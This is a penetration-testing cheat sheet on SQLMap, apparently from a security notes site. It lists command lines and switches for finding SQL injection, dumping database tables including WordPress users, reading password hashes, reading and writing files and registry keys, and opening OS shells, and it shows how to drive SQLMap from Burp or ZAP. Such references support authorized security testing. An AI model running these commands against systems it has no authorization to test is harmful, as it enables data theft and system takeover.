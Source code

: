 ```yaml
---
title: SQLMap 
category: Web Application
order: 98
---
```


> **SQLMap Command**

{% highlight bash %}
sqlmap.py -u http://site/file.php?variable?name=vName --cookie="cookie" --proxy http://127.0.0.1:8081   --batch
sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users
{% endhighlight %}

> **Riding Sessions**
*Note: This can have a performance impact*

**ZAP**
1. Click enable session tracking cookies

**Burp**
1. Click Options tab
2. Click Sessions sub-tab
3. Click Use cookies from Burps' cookie jar - Proxy, Spider, and Scanner

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site looking for injection points | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 

>**Tamper Scripts**

* [SANS](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)


> **Tools**
* [SQLMap](https://github.com/sqlmapproject/sqlmap)

